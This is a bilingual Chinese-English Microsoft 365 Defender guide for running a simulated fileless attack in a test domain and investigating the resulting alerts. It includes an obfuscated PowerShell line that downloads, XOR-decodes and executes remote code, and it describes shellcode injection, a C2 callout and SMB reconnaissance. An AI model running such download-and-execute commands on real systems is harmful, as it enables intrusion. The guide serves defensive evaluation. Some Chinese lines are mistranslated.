

# <a name="run-your-microsoft-365-defender-attack-simulations"></a><span data-ttu-id="1e413-104">執行您的 Microsoft 365 Defender 攻擊模擬</span><span class="sxs-lookup"><span data-stu-id="1e413-104">Run your Microsoft 365 Defender attack simulations</span></span>

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|<span data-ttu-id="1e413-105">[](mtp-pilot-plan.md)</span><span class="sxs-lookup"><span data-stu-id="1e413-105">[](mtp-pilot-plan.md)</span></span><br/>[<span data-ttu-id="1e413-106">規劃</span><span class="sxs-lookup"><span data-stu-id="1e413-106">Planning</span></span>](mtp-pilot-plan.md)|<span data-ttu-id="1e413-107">[](prepare-mtpeval.md)</span><span class="sxs-lookup"><span data-stu-id="1e413-107">[](prepare-mtpeval.md)</span></span><br/>[<span data-ttu-id="1e413-108">製備</span><span class="sxs-lookup"><span data-stu-id="1e413-108">Preparation</span></span>](prepare-mtpeval.md)|<br/><span data-ttu-id="1e413-110">類比攻擊</span><span class="sxs-lookup"><span data-stu-id="1e413-110">Simulate attack</span></span>|<span data-ttu-id="1e413-111">[](mtp-pilot-close.md)</span><span class="sxs-lookup"><span data-stu-id="1e413-111">[](mtp-pilot-close.md)</span></span><br/>[<span data-ttu-id="1e413-112">結束和摘要</span><span class="sxs-lookup"><span data-stu-id="1e413-112">Close and summarize</span></span>](mtp-pilot-close.md)|
|--|--|--|--|
|||<span data-ttu-id="1e413-113">*您目前在這裡！*</span><span class="sxs-lookup"><span data-stu-id="1e413-113">*You are here!*</span></span>||

<span data-ttu-id="1e413-114">您目前處於攻擊模擬階段。</span><span class="sxs-lookup"><span data-stu-id="1e413-114">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="1e413-115">準備您的試驗環境之後，就是測試 Microsoft 365 Defender 事件管理和自動化調查及補救功能的時候。</span><span class="sxs-lookup"><span data-stu-id="1e413-115">After preparing your pilot environment, it's time to test the Microsoft 365 Defender incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="1e413-116">我們會説明您模擬複雜攻擊，利用進場技術隱藏偵測。</span><span class="sxs-lookup"><span data-stu-id="1e413-116">We'll help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="1e413-117">攻擊會列舉網網域控制站上已開啟 (SMB) 封鎖，並取回使用者裝置最近的 IP 位址。</span><span class="sxs-lookup"><span data-stu-id="1e413-117">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.</span></span> <span data-ttu-id="1e413-118">此類型攻擊通常不包含放在下型裝置上的檔案，它們只發生在記憶內。</span><span class="sxs-lookup"><span data-stu-id="1e413-118">This category of attacks usually doesn't include files dropped on the victim's device—they occur solely in memory.</span></span> <span data-ttu-id="1e413-119">他們使用現有的系統及管理工具「住在大陸」，並且將程式碼插入系統程式以隱藏其執行，此類行為可讓他們偵測到病毒並持續在裝置上。</span><span class="sxs-lookup"><span data-stu-id="1e413-119">They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="1e413-120">在這個模擬中，我們的範例案例是從 PowerShell 腳本開始。</span><span class="sxs-lookup"><span data-stu-id="1e413-120">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="1e413-121">使用者可能會被誘騙執行腳本。</span><span class="sxs-lookup"><span data-stu-id="1e413-121">A user might be tricked into running a script.</span></span> <span data-ttu-id="1e413-122">或者，腳本可能從遠端連線到另一部電腦，從先前受到感染的裝置執行，即企圖稍後在網路中移動的攻擊者。</span><span class="sxs-lookup"><span data-stu-id="1e413-122">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="1e413-123">偵測這些腳本可能很困難，因為系統管理員通常也會遠端執行腳本，以執行各種系統管理活動。</span><span class="sxs-lookup"><span data-stu-id="1e413-123">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="1e413-125">在模擬期間，攻擊會插入模擬流程的殼層。</span><span class="sxs-lookup"><span data-stu-id="1e413-125">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="1e413-126">此情境需要使用notepad.exe。</span><span class="sxs-lookup"><span data-stu-id="1e413-126">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="1e413-127">我們選擇此程式進行模擬，但攻擊者可能會以較久執行系統程式為目標，例如svchost.exe。</span><span class="sxs-lookup"><span data-stu-id="1e413-127">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="1e413-128">接著，Shellcode 會聯絡攻擊者的 C2 (控制命令) 伺服器，以接收如何繼續進行的指示。</span><span class="sxs-lookup"><span data-stu-id="1e413-128">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="1e413-129">腳本會嘗試對 DC (執行重新執行) 。</span><span class="sxs-lookup"><span data-stu-id="1e413-129">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="1e413-130">重新建立可讓攻擊者取得最近使用者登入資訊的資訊。</span><span class="sxs-lookup"><span data-stu-id="1e413-130">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="1e413-131">一旦攻擊者取得這些資訊，他們就可以在網路稍後移動，以取得特定的機密帳戶</span><span class="sxs-lookup"><span data-stu-id="1e413-131">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="1e413-132">為獲得最佳結果，請盡可能遵循攻擊模擬指示。</span><span class="sxs-lookup"><span data-stu-id="1e413-132">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

## <a name="simulation-environment-requirements"></a><span data-ttu-id="1e413-133">模擬環境需求</span><span class="sxs-lookup"><span data-stu-id="1e413-133">Simulation environment requirements</span></span>

<span data-ttu-id="1e413-134">由於在準備階段期間已經配置您的試驗環境，因此請為此情境確保您有兩部裝置：一個測試裝置和一個網域控制站。</span><span class="sxs-lookup"><span data-stu-id="1e413-134">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1. <span data-ttu-id="1e413-135">驗證您的租使用者[已啟用 Microsoft 365 Defender。](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)</span><span class="sxs-lookup"><span data-stu-id="1e413-135">Verify your tenant has [enabled Microsoft 365 Defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>

2. <span data-ttu-id="1e413-136">確認您的測試網域控制站組組：</span><span class="sxs-lookup"><span data-stu-id="1e413-136">Verify your test domain controller configuration:</span></span>

   - <span data-ttu-id="1e413-137">裝置使用 Windows Server 2008 R2 或更新版本執行。</span><span class="sxs-lookup"><span data-stu-id="1e413-137">Device runs with Windows Server 2008 R2 or a later version.</span></span>
   - <span data-ttu-id="1e413-138">測試網域控制站至 [Microsoft Defender 進行身分識別，](https://docs.microsoft.com/azure/security-center/security-center-wdatp) 並啟用 [遠端系統管理](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)。</span><span class="sxs-lookup"><span data-stu-id="1e413-138">The test domain controller to [Microsoft Defender for Identity](https://docs.microsoft.com/azure/security-center/security-center-wdatp) and enable [remote management](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>
   - <span data-ttu-id="1e413-139">確認已啟用[身分識別與 Microsoft Cloud App 安全性整合的 Microsoft Defender。](https://docs.microsoft.com/cloud-app-security/mdi-integration)</span><span class="sxs-lookup"><span data-stu-id="1e413-139">Verify that [Microsoft Defender for Identity and Microsoft Cloud App Security integration](https://docs.microsoft.com/cloud-app-security/mdi-integration) have been enabled.</span></span>
   - <span data-ttu-id="1e413-140">您的網域上已建立測試使用者，不需要系統管理員許可權。</span><span class="sxs-lookup"><span data-stu-id="1e413-140">A test user is created on your domain – no admin permissions needed.</span></span>

3. <span data-ttu-id="1e413-141">確認測試裝置組配置：</span><span class="sxs-lookup"><span data-stu-id="1e413-141">Verify test device configuration:</span></span>

   1. <span data-ttu-id="1e413-142">裝置使用 Windows 10 版本 1903 或更新版本執行。</span><span class="sxs-lookup"><span data-stu-id="1e413-142">Device runs with Windows 10 version 1903 or a later version.</span></span>

   1. <span data-ttu-id="1e413-143">測試裝置已加入測試網域。</span><span class="sxs-lookup"><span data-stu-id="1e413-143">Test device is joined to the test domain.</span></span>

   1. <span data-ttu-id="1e413-144">[開啟 Windows Defender 防毒軟體](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)。</span><span class="sxs-lookup"><span data-stu-id="1e413-144">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="1e413-145">如果您無法啟用 Windows Defender 防毒軟體，請參閱此 [疑難排解主題](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。</span><span class="sxs-lookup"><span data-stu-id="1e413-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="1e413-146">確認測試裝置已上[線至 Microsoft Defender for Endpoint) 。](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="1e413-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="1e413-147">如果您使用現有的租使用者及執行裝置群組，請為測試裝置建立專用的裝置群組，然後推至組式 UX 中的最上方層級。</span><span class="sxs-lookup"><span data-stu-id="1e413-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="1e413-148">執行攻擊案例模擬</span><span class="sxs-lookup"><span data-stu-id="1e413-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="1e413-149">若要執行攻擊案例模擬：</span><span class="sxs-lookup"><span data-stu-id="1e413-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="1e413-150">使用測試使用者帳戶登入測試裝置。</span><span class="sxs-lookup"><span data-stu-id="1e413-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="1e413-151">在測試裝置上開啟 Windows PowerShell 視窗。</span><span class="sxs-lookup"><span data-stu-id="1e413-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="1e413-152">複製下列模擬腳本：</span><span class="sxs-lookup"><span data-stu-id="1e413-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="1e413-153">如果您是在網頁瀏覽器上開啟這份檔，可能無法複製完整文字而不會失去特定字元，或是分行符號。</span><span class="sxs-lookup"><span data-stu-id="1e413-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="1e413-154">下載這份檔，然後以 Adobe Reader 開啟。</span><span class="sxs-lookup"><span data-stu-id="1e413-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="1e413-155">當系統提示時，貼上及執行複製的腳本。</span><span class="sxs-lookup"><span data-stu-id="1e413-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="1e413-156">如果您是使用遠端桌面通訊協定 (RDP) 執行 PowerShell，請使用 RDP 用戶端中的 [類型剪貼本文字> 命令，因為 **CTRL-V** Hotkey 或滑鼠右鍵貼上方法可能無法運作。</span><span class="sxs-lookup"><span data-stu-id="1e413-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="1e413-157">最新版本的 PowerShell 有時候也不接受這個方法，您可能需要先在記憶體中複製到記事本、在虛擬機器中複製，然後再貼到 PowerShell 中。</span><span class="sxs-lookup"><span data-stu-id="1e413-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="1e413-158">幾秒之後，系統 <i>notepad.exe</i> 開啟。</span><span class="sxs-lookup"><span data-stu-id="1e413-158">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="1e413-159">模擬攻擊代碼會插入notepad.exe。</span><span class="sxs-lookup"><span data-stu-id="1e413-159">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="1e413-160">讓自動產生的記事本實例保持開啟，以體驗完整的案例。</span><span class="sxs-lookup"><span data-stu-id="1e413-160">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="1e413-161">模擬攻擊代碼會嘗試通訊到外部 IP 位址 (模擬 C2 伺服器) 然後嘗試透過 SMB 重新對網域控制站重新執行。</span><span class="sxs-lookup"><span data-stu-id="1e413-161">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="1e413-162">腳本完成時，PowerShell 主控台上會顯示一則訊息。</span><span class="sxs-lookup"><span data-stu-id="1e413-162">You'll see a message displayed on the PowerShell console when this script completes.</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

<span data-ttu-id="1e413-163">若要看到自動化事件和回應功能作用中，請保持程式notepad.exe開啟。</span><span class="sxs-lookup"><span data-stu-id="1e413-163">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="1e413-164">您將會看到自動化事件和回應停止記事本程式。</span><span class="sxs-lookup"><span data-stu-id="1e413-164">You'll see Automated Incident and Response stop the Notepad process.</span></span>

## <a name="investigate-an-incident"></a><span data-ttu-id="1e413-165">調查事件</span><span class="sxs-lookup"><span data-stu-id="1e413-165">Investigate an incident</span></span>

> [!NOTE]
> <span data-ttu-id="1e413-166">在我們將您進行這項模擬之前，請觀看下列影片，瞭解事件管理如何協助您將相關警示一起放在一起，做為調查流程的一部分、您可以在入口網站找到它的地方，以及事件管理如何協助您的安全性作業：</span><span class="sxs-lookup"><span data-stu-id="1e413-166">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="1e413-167">切換至 SOC 分析師觀點後，您現在就可以在 Microsoft 365 資訊安全中心入口網站開始調查攻擊。</span><span class="sxs-lookup"><span data-stu-id="1e413-167">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span>

1. <span data-ttu-id="1e413-168">從任何 [裝置開啟 Microsoft 365 資訊安全中心入口](https://security.microsoft.com/incidents) 網站事件佇列。</span><span class="sxs-lookup"><span data-stu-id="1e413-168">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2. <span data-ttu-id="1e413-169">從功能表 **流覽** 至事件。</span><span class="sxs-lookup"><span data-stu-id="1e413-169">Navigate to **Incidents** from the menu.</span></span>

    

3. <span data-ttu-id="1e413-171">模擬攻擊的新事件會顯示在事件佇列中。</span><span class="sxs-lookup"><span data-stu-id="1e413-171">The new incident for the simulated attack will appear in the incident queue.</span></span>

    

### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="1e413-173">以單一事件調查攻擊</span><span class="sxs-lookup"><span data-stu-id="1e413-173">Investigate the attack as a single incident</span></span>

<span data-ttu-id="1e413-174">Microsoft 365 Defender 會關聯分析，並將不同產品的所有相關警示與調查匯總到單一事件實體。</span><span class="sxs-lookup"><span data-stu-id="1e413-174">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="1e413-175">如此一來，Microsoft 365 Defender 會顯示更廣泛的攻擊案例，讓 SOC 分析師瞭解並回應複雜的威脅。</span><span class="sxs-lookup"><span data-stu-id="1e413-175">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="1e413-176">此模擬期間產生的警示會與相同的威脅相關聯，因此會自動匯總為單一事件。</span><span class="sxs-lookup"><span data-stu-id="1e413-176">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="1e413-177">若要查看事件：</span><span class="sxs-lookup"><span data-stu-id="1e413-177">To view the incident:</span></span>

1. <span data-ttu-id="1e413-178">流覽至 **事件佇列** 。</span><span class="sxs-lookup"><span data-stu-id="1e413-178">Navigate to the **Incidents** queue.</span></span>

   

2. <span data-ttu-id="1e413-180">按一下事件名稱左側的圓圈，以選取最新的專案。</span><span class="sxs-lookup"><span data-stu-id="1e413-180">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="1e413-181">側邊面板會顯示事件的其他相關資訊，包括所有相關的警示。</span><span class="sxs-lookup"><span data-stu-id="1e413-181">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="1e413-182">根據事件包含的警示屬性，每個事件都有一個描述它的唯一名稱。</span><span class="sxs-lookup"><span data-stu-id="1e413-182">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

   

   <span data-ttu-id="1e413-184">儀表板上顯示警示會依據服務資源進行篩選：Microsoft Defender for Identity、Microsoft Cloud App Security、Microsoft Defender for Endpoint、Microsoft 365 Defender 和 Microsoft Defender for Office 365。</span><span class="sxs-lookup"><span data-stu-id="1e413-184">The alerts that show in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>

3. <span data-ttu-id="1e413-185">選取 **開啟事件頁面** 以取得事件詳細資訊。</span><span class="sxs-lookup"><span data-stu-id="1e413-185">Select **Open incident page** to get more information about the incident.</span></span>

   <span data-ttu-id="1e413-186">在 **事件** 頁面中，您可以看見所有警示與事件相關資訊。</span><span class="sxs-lookup"><span data-stu-id="1e413-186">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="1e413-187">這些資訊包括與警示相關的實體和資產、警示 (Microsoft Defender 的身分識別、EDR) 的偵測來源，以及它們連結的原因。</span><span class="sxs-lookup"><span data-stu-id="1e413-187">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (Microsoft Defender for Identity, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="1e413-188">查看事件警示清單會顯示攻擊的進度。</span><span class="sxs-lookup"><span data-stu-id="1e413-188">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="1e413-189">您可以在此視圖中查看及調查個別警示。</span><span class="sxs-lookup"><span data-stu-id="1e413-189">From this view, you can see and investigate the individual alerts.</span></span>

   <span data-ttu-id="1e413-190">您也可以從 **右側功能表按一下** [管理事件;以標記事件、將事件指派給自己，以及新增批註。</span><span class="sxs-lookup"><span data-stu-id="1e413-190">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

   

   

### <a name="review-generated-alerts"></a><span data-ttu-id="1e413-193">查看產生的警示</span><span class="sxs-lookup"><span data-stu-id="1e413-193">Review generated alerts</span></span>

<span data-ttu-id="1e413-194">讓我們看看在模擬攻擊期間產生的一些警示。</span><span class="sxs-lookup"><span data-stu-id="1e413-194">Let's look at some of the alerts generated during the simulated attack.</span></span>

> [!NOTE]
> <span data-ttu-id="1e413-195">我們只會流覽模擬攻擊期間產生的一些警示。</span><span class="sxs-lookup"><span data-stu-id="1e413-195">We'll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="1e413-196">根據 Windows 版本和在測試裝置上執行之 Microsoft 365 Defender 產品的不同，您可能會看到更多以稍微不同的順序顯示警示。</span><span class="sxs-lookup"><span data-stu-id="1e413-196">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="1e413-198">警示：觀察的可疑 (來源：Microsoft Defender for Endpoint EDR) </span><span class="sxs-lookup"><span data-stu-id="1e413-198">Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="1e413-199">進手的入侵者會使用複雜且複雜的方法來保存記憶，並隱藏在偵測工具中。</span><span class="sxs-lookup"><span data-stu-id="1e413-199">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="1e413-200">其中一個常見技巧是在信任的系統程式內操作，而不是惡意執行檔，使得偵測工具和安全性作業難以發現惡意程式碼。</span><span class="sxs-lookup"><span data-stu-id="1e413-200">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="1e413-201">為了讓 SOC 分析師能夠發現這些進層攻擊，Microsoft Defender for Endpoint 中的深度記憶體感應器可讓我們的雲端服務非常深入地瞭解各種跨程式碼編碼技巧。</span><span class="sxs-lookup"><span data-stu-id="1e413-201">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="1e413-202">下圖顯示當嘗試插入程式碼給端點時，Defender for Endpoint 如何偵測<i>notepad.exe。</i></span><span class="sxs-lookup"><span data-stu-id="1e413-202">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="1e413-204">提醒：在來源中，程式執行時所觀察的未預期行為 (來源：Microsoft Defender for Endpoint EDR) </span><span class="sxs-lookup"><span data-stu-id="1e413-204">Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="1e413-205">端點偵測的 Microsoft Defender 通常會以攻擊技術最常見的屬性為目標。</span><span class="sxs-lookup"><span data-stu-id="1e413-205">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="1e413-206">這個方法可確保工作十分簡單，並針對攻擊者提高策略，以利切換至較新的策略。</span><span class="sxs-lookup"><span data-stu-id="1e413-206">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="1e413-207">我們採用大規模學習演算法，以建立組織內及全球常見程式的正常行為，並注意這些程式何時會顯示異常行為。</span><span class="sxs-lookup"><span data-stu-id="1e413-207">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="1e413-208">這些異常行為通常表示系統引入多餘的程式碼，且是在其他信任的過程中執行。</span><span class="sxs-lookup"><span data-stu-id="1e413-208">These anomalous behaviors often indicate that extraneous code was introduced and are running in an otherwise trusted process.</span></span>

<span data-ttu-id="1e413-209">在此情境中，notepad.exe與 <i> 外部 </i> 位置進行通訊時，發生異常行為。</span><span class="sxs-lookup"><span data-stu-id="1e413-209">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="1e413-210">此結果與用於引入和執行惡意程式碼的特定方法無關。</span><span class="sxs-lookup"><span data-stu-id="1e413-210">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

> [!NOTE]
> <span data-ttu-id="1e413-211">由於此警示是以需要額外後端處理的機器學習模型為基礎，您可能需要一些時間，才能在入口網站看到此提醒。</span><span class="sxs-lookup"><span data-stu-id="1e413-211">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="1e413-212">請注意，警示詳細資料包括外部 IP 位址，這是您可以做為展開調查的樞紐分析表。</span><span class="sxs-lookup"><span data-stu-id="1e413-212">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="1e413-213">選取警示程式樹狀結構中的 IP 位址，以查看 IP 位址詳細資料頁面。</span><span class="sxs-lookup"><span data-stu-id="1e413-213">Select the IP address in the alert process tree to view the IP address details page.</span></span>


<span data-ttu-id="1e413-215">下圖顯示選取的 IP 位址詳細資料頁面， (通知程式樹狀結構中的 IP 位址) 。</span><span class="sxs-lookup"><span data-stu-id="1e413-215">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="1e413-216"></span><span class="sxs-lookup"><span data-stu-id="1e413-216"></span></span>

#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a><span data-ttu-id="1e413-217">提醒：SMB 使用者與 IP 位址的 (性)  (來源：Microsoft Defender 處理身分識別) </span><span class="sxs-lookup"><span data-stu-id="1e413-217">Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)</span></span>

<span data-ttu-id="1e413-218">使用伺服器訊息封鎖 (SMB) 通訊協定列舉可讓攻擊者取得最新的使用者登入資訊，協助他們稍後在網路中移動以存取特定機密帳戶。</span><span class="sxs-lookup"><span data-stu-id="1e413-218">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="1e413-219">在此偵測中，當 SMB 會話列舉對網域控制站執行時，會觸發警示。</span><span class="sxs-lookup"><span data-stu-id="1e413-219">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a><span data-ttu-id="1e413-221">檢查裝置時程表 [端點的 Microsoft Defender]</span><span class="sxs-lookup"><span data-stu-id="1e413-221">Review the device timeline [Microsoft Defender for Endpoint]</span></span>

<span data-ttu-id="1e413-222">流覽此事件的各種警示之後，流覽回您先前調查的事件頁面。</span><span class="sxs-lookup"><span data-stu-id="1e413-222">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="1e413-223">選取事件 **頁面中** 的裝置分頁，以審查由 Microsoft Defender for Endpoint 和 Microsoft Defender 針對身分識別所報告參與此事件的裝置。</span><span class="sxs-lookup"><span data-stu-id="1e413-223">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

